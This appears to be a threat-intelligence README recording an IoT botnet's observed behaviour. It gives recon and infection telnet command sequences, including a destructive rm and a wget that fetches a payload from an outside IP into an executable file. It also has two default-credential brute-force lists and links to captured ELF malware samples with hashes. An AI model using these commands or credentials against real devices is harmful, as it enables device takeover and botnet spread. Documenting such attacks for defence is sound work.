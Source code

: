 ### Recon phase (example)
```
enable
shell
sh
/bin/busybox ZORRO
/bin/busybox wget
cat /proc/mounts && /bin/busybox ZORRO
/bin/busybox cat /bin/sh
```

### Infection phase (example)
```
enable
shell
sh
/bin/busybox rm -rf /var/run/* /dev/* /tmp/* /var/run/* >/dev/null 2>&1; /bin/busybox WOPBOT
/bin/busybox mkdir -p /var/run; /bin/busybox WOPBOT
/bin/busybox cp -f /bin/sh /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox echo -ne '' > /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox chmod 777 /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox wget -O - http://85.118.98.197:61050/cyka/blyat/2.mp > /var/run/oMNUckLhyt && /bin/busybox WOPBOT
```

### Brute-force credentials
```
root:xc3511
guest:guest
guest:12345
root:root
root:admin
root:realtek
root:1234
root:12345
root:123456
root:1111
root:password
root:dreambox
root:vizxv
root:7ujMko0vizxv
root:7ujMko0admin
root:pass
root:system
admin:admin
admin:7ujMko0admin
admin:password
admin:1111111
admin:1234
admin:12345
admin:123456
admin:1111
admin:smcadmin
admin:4321
admin:pass
support:support
ubnt:ubnt
888888:888888
service:service
```

and (in other strain):

```
guest:guest
guest:12345
root:root
root:admin
root:1234
root:12345
root:123456
root:1111
root:password
root:dreambox
root:vizxv
root:7ujMko0vizxv
root:7ujMko0admin
root:system
root:ikwb
root:pass
root:system
root:xc3511
admin:admin
admin:7ujMko0admin
admin:password
admin:1111111
admin:1234
admin:12345
admin:123456
admin:1111
admin:smcadmin
admin:4321
admin:pass
admin:meinsm
support:support
ubnt:ubnt
666666:666666
888888:888888
service:service
admin1:password
administrator:1234
supervisor:supervisor
```

### Captured samples
* [1.mp](samples/1.mp.7z) (`ELF 32-bit, MIPS-I, MD5: eab8da47ff36cafd2662fd01b6959389`)
* [2.mp](samples/2_2.mp.7z) (`ELF 32-bit, MIPS-I, MD5: 78446a24075294968d1f48e76323665c`)
* [2.mp](samples/2.mp.7z) (`ELF 64-bit, MIPS-I, MD5: 4565f96cd8498a7e15ffa99e0d435d11`)
* [.arm](samples/arm.7z) (`ELF 32-bit, ARM, MD5: 8a7e32db13844f2d441340befd8dd8e9`)
* [.m68k](samples/m68k.7z) (`ELF 32-bit, Motorola 68020, MD5: 67c99761fac4c12e06fcf17fa1598360`)
* [.mp](samples/mp.7z) (`ELF 32-bit, MIPS-I, MD5: bdcee10dddb257baf6a84dd952f4c0dc`)
* [.mps](samples/mps.7z) (`ELF 32-bit, MIPS-I, MD5: 35e9948748c60f17f1f404e1debbb505`)
* [.ppc](samples/ppc.7z) (`ELF 32-bit, PowerPC, MD5: ad8c6e3fd1421a70a4df46117fa5da8b`)
* [.sh4](samples/sh4.7z) (`ELF 32-bit, Renesas SH, MD5: d82b630bc07d146f54f18861a0370243`)
* [.sparc](samples/sparc.7z) (`ELF 32-bit, SPARC, MD5: a14141949361398a8d9662b90168adeb`)

